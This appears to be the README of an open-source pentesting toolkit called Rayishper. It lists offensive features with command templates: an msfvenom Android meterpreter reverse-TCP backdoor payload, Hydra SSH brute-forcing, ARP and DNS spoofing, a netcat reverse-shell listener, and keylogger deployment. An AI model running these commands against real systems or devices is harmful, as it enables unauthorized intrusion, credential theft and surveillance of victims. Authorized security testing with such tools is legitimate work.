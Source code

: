 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

## Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
cd rayishper

## Make the script executable:
chmod +x rayishper.py

## Install the required dependencies:
sudo apt-get update
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
Ensure that all tools used in the script are correctly installed and accessible in your PATH.

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

Python 3: The core programming language used in the script.
Metasploit-Framework: For payload generation, reverse shell listeners, and exploitation.
nmap: For network scanning and discovery.
Hydra: For brute-forcing SSH logins.
Tcpdump: For packet sniffing and network analysis.
Aircrack-ng: For wireless network cracking.
John-the-Ripper: For password cracking.
Social-Engineering-Toolkit-(SET): For social engineering attacks.

## Usage
## To run Rayishper:
'./rayishper.py'

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

## VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: python3 VF685.py

## Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command: python3 keylog.py

## Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}

## SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: hydra -l {username} -P {wordlist} ssh://{target_ip}

## Network Scanning
Description: Scan a target IP for open ports and services.
Command: nmap -sV {target_ip}

## ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}

## Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: nc -lvnp {lport}

## DNS Spoofing
Description: Spoof DNS responses on a network.
Command: sudo dnsspoof

## License
This project is open-source and available under the MIT License.
